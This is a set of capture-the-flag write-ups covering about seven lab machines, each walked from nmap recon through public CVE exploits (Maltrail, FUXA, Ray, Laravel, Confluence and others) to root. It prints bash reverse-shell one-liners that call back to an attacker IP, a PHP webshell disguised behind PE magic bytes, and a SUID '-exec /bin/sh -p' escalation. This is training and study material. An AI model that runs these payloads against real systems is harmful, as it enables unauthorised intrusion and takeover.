




# CTF-01

## RECON

### Nmap

Starting of with the NMAP, It shows Three Ports open 22 (ssh) ,80 (http) and 8338 (unknown)



Going through Script and version scan nmap found out the 8338 port is running `mailtrail/0.52` server


### Website

Visiting the site on  8338 port, Looks like an authentication page which is leaking server name and version in the bottom of the page.


Looking for the server CVE's in the Web Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process, The username field has the vulnerablity 


### User Snort

Found the [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) but decided to proceed it manually


We put the base64 encode payload after the username to get the rev shell

```
bash -c "bash -i >& /dev/tcp/ip/port 0>&1"
```
Got the shell back as User Snort


### Privilege Escalation To Root

Looking in to the /var/backups dir there is a etc_Backup.sh script which is owned by root and has  dangerous permissions


Since it is writable by everyone we can write a bash rev shell in it


After few seconds we got a shell as Root


* * *

# CTF-02

## RECON

### Nmap

Initial nmap full port scan shows us two ports open 22 (ssh) and 80 (http)


Running a Script and version scan doesn't tell us much


### Site

Visiting the site there is a upload for PE file uploading to check with AV-Engines


Running a Dir brute force Gobuster found out there is backups dir.


Visiting the /backups show directory indexing with backup.zip file in it


Downloading the file and unzipping the content of it looks like a site backup


Looking in to the upload.php we can see it is checking magic bytes of the file if it is starting with 4d5a or Mz which are magic bytes of PE like (wget.exe etc)


### www-data SHell
Using the Following trick To bypass the functionality

```
(root㉿kali)-[/home/kali/pg/ctf-2] --> head -c 50 wget.exe > mbytes

(root㉿kali)-[/home/kali/pg/ctf-2] --> cat mbytes hello.php > shell.php

# shell.php 

<?php system($_GET["cmd"]) ?>

``` 
Now looking in to our php webshell we can see it starts with the magic bytes of PE file 4d5a


Uploading the file and running it we get the command execution


Next we start up a nc listener and put a bash rev shell payload 


Got the shell back as www-data in our nc listener


### PrivEsc To Root

Looking in to The /opt dir we found a binary fileS with SUID bit set


Exploring it with help flag shows it is something same to the find util


we can run fileS binary as root and since it has -exec option to run commands we can abuse the functionality to PrivEsc

```
# /opt/fileS . -exec /bin/sh -p \; quit
```


* * *

# CTF-04

## RECON 

### Nmap

Nmap scan revealed two ports open 22 (ssh) and 1881 (unknown)


Nmap Script and Version scan shows that port 1881 is running NodeJs With title `FUXA`


### Root Shell

A quick google search shows that FUXA has unauthenticate RCE Vul [CVE-2023-33831](https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831)


Starting the nc listener and Running The expolit we got the shell as root


* * *

# CTF-05

## REcon

### Nmap 

Starting of with the Nmap full port scan we see two ports open 22 (ssh) 3000 (possible node)


Running Script and Version scan shows that port 3000 is running NodeJs


### site

Looking in to the site in Port 3000, it looks some kind of command guessing game which uses `find-exec v1.0.2`


## Root shell

A quick google search shows that the find-exec version in Vulnerable to Command Injection with CVE-2023-40582.


For testing we put the payload and the site reaches us back


Next we put a Bash rev shell payload


Got the shell back as Root


* * *

# CTF-06

## REcon

Sarting of with nmap full port scan. It reveals lot of ports open


Particulary 9000 interesting one

### Site

Looking in to the port 9000 from browser looks like `Ray Project dashboard` contain cpu profiling page


A quick google search shows it is vulnerable to `command injection` in cpu_profile parameter `CVE-2023-6019`


### Root SHell

Testing For command injection in cpu_profile format parameter we got the callback from the server confirming the command injection


Putting bash rev shell in it we got the shell as root


* * *

# CTF-07

## Recon
### Nmap

Running initial nmap scan reveals two ports


Service and Version scan doesn't reveal anything interesting 


Gobuster reveals some interesting dir 



### Site

Looking in to the site the not found page reveals it `laravel 8.4.0` 


A bit of googling tells us that this version debug mode is vulnerable to RCE with [CVE-2021-3129](https://www.exploit-db.com/exploits/49424) and has POC available.

### www-data shell

Since the page has a login feature i did'nt find any POC which use authentication. So i modified the exploit a little to use tokens 


After executing the exploit I got the shell as www-root


### Shell as Skunk

Running pspy in the box reveals user with id 1001 running a looks like a cron job


Since the cronjob is running artisan which is writable by www-data so putting a shell there

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");

```

After the cronJob executed again we got the shell as Skunk


### PrivEsc To Root

Looking in to sudo -l it reveals we can run composer as root


GTFObins has this binary listed


Putting the shell in it and running it 


We got the shell back as root


* * *

# CTF-08

## Recon

### Nmap

Running Nmap full Port scan reveals 3 ports open 22,8090,8091


Script and version scan floods the terminal with lot of data



### Site

Looking in to the site we see it is leaking the name and version `Atlassian Confluence 7.13.6`


Googling a little bit about the product shows it has [CVE-2022-26134](https://blog.qualys.com/qualys-insights/2022/06/29/atlassian-confluence-ognl-injection-remote-code-execution-rce-vulnerability-cve-2022-26134) OGNL injection vulnerablity

So first checking it manually how it works we can see that the payload is visible in X-cmd-Response header


Another payload is used to make the server send us a file in our case (/etc/passwd)


### Shell as Confluence

After trying different thing i assumed we cannot drop the shell in to the directory in which the Current Application is Running so i tried to drop it in to the Confluence Home dir


Got the listener back as Confluence user 


### shell as root

In the /opt dir there is a file log-backup.sh looking in to the file it looks like it is creating a backup in /root/backup directory 



since only root can write in to its own directory we can assume whatever is running the log-backup.sh is running as root 
and since it is owned by Confluence user and we can write in it we can put a bash rev shell in it 


Starting our nc listener we got the shell back as root after few seconds


* * *

